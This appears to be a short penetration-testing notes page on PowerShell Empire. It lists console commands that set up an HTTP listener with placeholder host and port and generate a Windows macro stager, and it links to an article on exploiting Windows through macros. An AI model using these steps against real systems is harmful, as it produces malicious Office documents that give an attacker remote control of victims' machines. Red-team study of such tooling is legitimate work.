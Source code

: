 # Empire

```
uselistener http

set Host <IP>

set Port <PORT>

usestager windows/macro

set Listener http

execute
```

---
## References

### Hacking Articles

- [Hacking Articles: Multiple Ways to Exploit Windows Systems using Macros](https://www.hackingarticles.in/multiple-ways-to-exploit-windows-systems-using-macros/)